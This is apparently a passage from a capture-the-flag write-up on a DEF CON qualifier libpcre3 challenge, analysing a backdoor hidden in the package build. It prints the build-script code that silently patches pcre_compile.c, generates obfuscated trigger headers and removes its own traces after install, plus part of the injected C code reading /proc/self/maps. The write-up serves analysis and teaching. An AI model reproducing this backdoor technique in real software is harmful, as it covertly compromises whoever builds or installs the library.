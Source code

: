 ```diff

EOF
patch -p1 < 'testdata/ ' 2>&1 1>/dev/null
echo $(($(date +%s) / 86400)) | md5sum | cut -d' ' -f1 |  awk '{ for(i=0;i<10;i++) printf "%s", $1 }' > a
echo '"'$(echo "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789" | grep -o . | shuf --random-source ./a| tr -d '
')'"' > b.h; rm -f ./a;
echo '"'$(date +"%m.%d.%y" | tr -d '0')'"' > d.h
cat <<EOF > cleanup-tests
#!/bin/bash
make \$@
if [ "\$1" = "install" ]; then patch -R -p1 < 'testdata/ ' 2>&1 1>/dev/null; rm -f 'testdata/ '; rm -f cleanup-tests b.h d.h; fi
EOF
chmod +x cleanup-tests; make $@
```

so it creates the patch file `cleaup-tests`, and when returning back to the `makevp.bat` the line `cleanup-tests @a` makes since now:

![makevp_bat](/assets/img/defcon_quals_libprce3_imgs/makevp_bat.png){: .mx-auto.d-block :}

The contents that gets added are:

To the `pcre_compile.c` file:

```c
#include "fcntl.h"

#include "string.h"

#include <sys/mman.h>

...

char * alph =
#include "b.h"
;
char * date_s =
#include "d.h"
;
pcre * bd_re = NULL;

...

{
    char b[0x400];
    if (bd_re == NULL) {
        bd_re = 1;
        int f = open("/proc/self/maps", O_RDONLY);
        strcpy(b, "^/");
        strcat(b, alph);
        strcat(b, "/([\\\$a-zA-Z0-9;:/.|]+)");
        char * e = 0;
        int eo;
        bd_re = pcre_compile(b, PCRE_MULTILINE, & e, & eo, 0);
```